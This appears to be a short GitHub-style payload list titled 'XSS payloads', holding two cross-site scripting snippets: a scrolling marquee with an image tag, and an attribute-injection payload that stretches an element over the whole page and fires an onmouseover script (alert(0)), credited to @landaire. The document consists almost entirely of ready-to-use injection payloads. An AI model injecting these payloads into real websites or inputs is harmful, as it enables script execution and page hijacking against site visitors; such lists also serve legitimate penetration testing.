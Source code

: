 # XSS payloads

```<marquee behavior="scroll" direction="left"><img src="<put image here>" width=“800” height=“600” alt="Natural" /></marquee>```

Scrolling marquee continuous

```style=width: 10000px; height: 10000px; position: absolute; top: 0; left: 0; z-index: 99999999" onmouseover=alert(0) ```

On mouse over that covers page by @landaire
